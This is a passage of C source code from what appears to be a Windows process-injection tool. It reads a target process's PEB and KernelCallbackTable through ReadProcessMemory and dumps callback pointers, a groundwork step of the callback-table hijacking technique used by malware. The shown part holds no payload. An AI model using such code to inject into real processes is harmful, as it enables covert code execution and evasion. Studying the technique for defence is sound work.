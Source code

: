 ```c
    }
    PVOID PebBaseAddress = pbi.PebBaseAddress;
    printf( COLOR_BLUE_BOLD "\t\t[*] PEB Address: 0x%p\n" COLOR_RESET, PebBaseAddress );

    // Step 6: Read KernelCallbackTable from the target process's PEB
    PVOID KernelCallbackTable;
    SIZE_T bytesRead = 0;
    if ( !ReadProcessMemory(
        hProcess,
        ( PBYTE ) PebBaseAddress + offsetof( PEB, KernelCallbackTable ),
        &KernelCallbackTable,
        sizeof( PVOID ),
        &bytesRead
    ) )
    {
        printf( COLOR_RED_BOLD "\t[-] Failed to read KernelCallbackTable. Error: %d\n" COLOR_RESET, GetLastError() );
        return -1;
    }
    printf( COLOR_BLUE_BOLD "\t\t[*] KernelCallbackTable Address: 0x%p\n" COLOR_RESET, KernelCallbackTable );

    // Step 7: Read KernelCallbackTable structure from the target process
    KERNELCALLBACKTABLE CCC;
    if ( !ReadProcessMemory(
        hProcess,
        KernelCallbackTable,
        &CCC,
        sizeof( CCC ),
        &bytesRead
    ) )
    {
        printf( COLOR_RED_BOLD "\t[-] Failed to read KernelCallbackTable structure. Error: %d\n" COLOR_RESET, GetLastError() );
        return -1;
    }
    printf( COLOR_GREEN_BOLD "\n\t[+] KernelCallbackTable read successfully. %zu bytes read.\n" COLOR_RESET, bytesRead );
    printf( COLOR_BLUE_BOLD "\t\t[*] Dumping KernelCallbackTable structure:\n" COLOR_RESET );
    printf( COLOR_GREEN_BOLD "\t\t\t__fnCOPYDATA: 0x%p\n" COLOR_RESET, ( void* ) CCC.__fnCOPYDATA );
    printf( COLOR_GREEN_BOLD "\t\t\t__fnCOPYGLOBALDATA: 0x%p\n" COLOR_RESET, ( void* ) CCC.__fnCOPYGLOBALDATA );
    printf( COLOR_GREEN_BOLD "\t\t\t__fnDWORD: 0x%p\n" COLOR_RESET, ( void* ) CCC.__fnDWORD );

    // -----------------------------------------------------
    // Assembly Method: Using LocatePEB and ResolveKernelCallbackTable
    // -----------------------------------------------------
    /*
    // 
    printf( COLOR_YELLOW_BOLD "\t[*] Retrieving PEB Address using Assembly...\n" COLOR_RESET );
    PVOID PebBaseAddressASM = LocatePEB();
    printf( COLOR_BLUE_BOLD "\t\t[*] PEB Address (from ASM): 0x%p\n" COLOR_RESET, PebBaseAddressASM );

    printf( COLOR_YELLOW_BOLD "\t[*] Resolving KernelCallbackTable using Assembly...\n" COLOR_RESET );
    PVOID KernelCallbackTableASM = ResolveKernelCallbackTable( PebBaseAddressASM );
    printf( COLOR_BLUE_BOLD "\t\t[*] KernelCallbackTable Address (from ASM): 0x%p\n" COLOR_RESET, KernelCallbackTableASM );

    // Continue using KernelCallbackTableASM as needed
    */
```